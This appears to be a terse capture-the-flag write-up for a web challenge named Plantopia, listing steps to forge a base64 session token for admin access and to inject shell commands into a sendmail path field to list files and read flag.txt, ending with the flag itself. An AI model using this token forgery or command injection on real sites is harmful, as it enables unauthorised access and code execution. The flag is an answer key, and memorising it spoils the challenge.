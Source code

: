 ## Name: Plantopia
#### Author: @HuskyHacks
#### Category: Web
#### Difficulty: N/D
#### Description: Plantopia is our brand new, cutting edge plant care management website! Built for hobbiests and professionals alike, it's your one stop shop for all plant care management.

Please perform a penetration test ahead of our site launch and let us know if you find anything.

Username: testuser
Password: testpassword

## Procedure
1



echo "dGVzdHVzZXIuMC4xNzI5ODgyMjQ5" | base64 -d

echo -n "testuser.1.1729882249" | base64
dGVzdHVzZXIuMS4xNzI5ODgyMjQ5

/usr/sbin/sendmail -t | ls
/usr/sbin/sendmail -t | cat flag.txt

http://challenge.ctf.games:30689/plant/2


flag{c29c4d53fc432f7caeb573a9f6eae6c6}
